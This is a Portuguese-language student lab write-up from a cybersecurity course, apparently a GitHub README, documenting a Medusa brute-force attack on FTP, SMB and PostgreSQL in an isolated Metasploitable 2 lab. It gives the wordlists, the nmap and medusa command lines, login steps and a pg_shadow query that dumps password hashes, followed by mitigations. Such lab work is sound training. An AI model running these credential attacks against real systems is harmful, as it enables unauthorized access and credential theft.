









# 🔐 Medusa Brute Force Lab (Kali Linux + Metasploitable 2)

Laboratório prático de **cibersegurança ofensiva** com foco em **ataques de força bruta (brute force)** utilizando a ferramenta **Medusa** em um ambiente controlado com **Kali Linux** (atacante) e **Metasploitable 2** (alvo).

> Projeto desenvolvido no contexto da **Formação Cybersecurity - DIO**.

---

## ⚠️ Aviso Legal (Disclaimer)

Este laboratório foi realizado em um ambiente **isolado e intencionalmente vulnerável**.  
**Não realize testes de segurança em sistemas sem autorização explícita.**

---

## 🎯 Objetivo

Demonstrar, na prática, o uso da ferramenta **Medusa** para:

- Identificar credenciais válidas por meio de força bruta  
- Validar o acesso aos serviços utilizando as credenciais descobertas  

Como atividade complementar (fora do escopo principal do desafio), foi realizada exploração adicional no serviço PostgreSQL para demonstrar o impacto potencial de uma credencial comprometida.

---

## 🛠️ Ambiente de Laboratório

- **Atacante:** Kali Linux (VM)  
- **Alvo:** Metasploitable 2  
- **IP do alvo:** `192.168.56.101`  
- **Rede:** Host-Only (VirtualBox, ambiente isolado)  

**Ferramentas utilizadas:**
- Nmap  
- Medusa  
- psql  
- smbclient  
- ftp  

---

## 📋 Wordlists Utilizadas

As tentativas de autenticação utilizaram dicionários simples, simulando cenários reais de senhas fracas:

### users.txt
```txt
msfadmin
admin
root
user
postgres
service
```

### pass.txt
```txt
msfadmin
password
postgres
123456
admin
root
toor
```

---

## 🧪 Metodologia
### 1. 🔍 Reconhecimento (Nmap)

Identificação de portas abertas e serviços ativos:

```bash
nmap -sV 192.168.56.101
```

**Serviços identificados com portas abertas que foram selecionados para exploração:**

- 5432/tcp → PostgreSQL
- 139/445/tcp → SMB
- 21/tcp → FTP

---

### 2. 🔑 Ataque de Força Bruta (Medusa)

Execução de ataques de força bruta para descoberta de credenciais válidas:

### PostgreSQL
```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M postgres
```
### SMB
```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M smbnt
```
### FTP
```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp
```

**Resultado:**

Foram identificadas credenciais válidas em múltiplos serviços, evidenciando:

- Uso de senhas fracas
- Reutilização de credenciais entre serviços

---

### 3. 🔓 Validação de Acesso

Validação das credenciais descobertas por meio de autenticação nos serviços:

### PostgreSQL
```bash
psql -h 192.168.56.101 -U postgres
```
### SMB
```bash
smbclient -L //192.168.56.101 -U msfadmin
```
### FTP
```bash
ftp 192.168.56.101
```

**Resultado:**

Autenticação bem-sucedida em todos os serviços testados.

---

### 4. 💣 Exploração Adicional (PostgreSQL)

Como atividade complementar, foi realizada exploração no banco de dados:
```sql
SELECT usename, passwd FROM pg_shadow;
```

**Observação:**

Essa etapa não fazia parte do escopo original do desafio, sendo realizada para demonstrar o impacto potencial de uma credencial comprometida.


---


## 📸 Evidências

A seguir estão as evidências organizadas por etapa do ataque, demonstrando todo o fluxo desde o reconhecimento até a validação de acesso.

---

### 🔍 1. Reconhecimento (Nmap)



Resultado da varredura inicial identificando serviços expostos como FTP, SMB e PostgreSQL.

---

### 📋 2. Preparação das Wordlists



Criação dos arquivos `users.txt` e `pass.txt` utilizados no ataque de força bruta.

---

### 🔑 3. Força Bruta - PostgreSQL



Execução do Medusa identificando credenciais válidas no serviço PostgreSQL.

**Credencial identificada:** `postgres/postgres`

---

### 🔓 4. Acesso ao PostgreSQL



Autenticação realizada com sucesso utilizando as credenciais descobertas.

---

### 💣 5. Exploração - PostgreSQL



Consulta à tabela `pg_shadow`, demonstrando acesso aos hashes de usuários.

---

### 🔑 6. Força Bruta - SMB



Execução do ataque de força bruta no serviço SMB.

---

### 🔓 7. Acesso ao SMB



Validação de acesso ao serviço SMB com credenciais válidas.

---

### 🔑 8. Força Bruta - FTP



Execução do ataque de força bruta no serviço FTP.

---

### 🔓 9. Acesso ao FTP



Autenticação bem-sucedida no serviço FTP.

---

## 🛡️ Medidas de Mitigação
- Remover credenciais padrão
  - Ex: admin/admin, postgres/postgres
- Adotar política de senhas fortes
  - Complexidade mínima e rotação periódica
- Implementar proteção contra força bruta
  - Fail2Ban, rate limiting, bloqueio por tentativas
- Restringir acesso a serviços
  - Apenas redes internas ou via VPN
- Utilizar protocolos seguros
  - Substituir FTP por SFTP
- Monitorar logs e autenticações
  - Detectar tentativas suspeitas

---

## 💡 Aprendizados
- A enumeração permite identificar usuários válidos
- Credenciais fracas comprometem múltiplos serviços
- A reutilização de senhas amplia o impacto do ataque
- Serviços expostos com autenticação são vetores críticos
- A ausência de proteção facilita ataques automatizados

---

## 📚 Conclusão

Este laboratório demonstra como falhas simples — como senhas fracas e reutilização de credenciais — podem levar ao comprometimento de múltiplos serviços em um mesmo ambiente.

Reforça-se a importância de:

- Hardening de serviços
- Monitoramento contínuo
- Políticas de autenticação seguras

---

## 📌 Informações do Projeto
- 🎓 **Curso:** Formação Cybersecurity - DIO
- 👨‍💻 **Aluno:** Renato
- 📅 **Período:** Abril de 2026
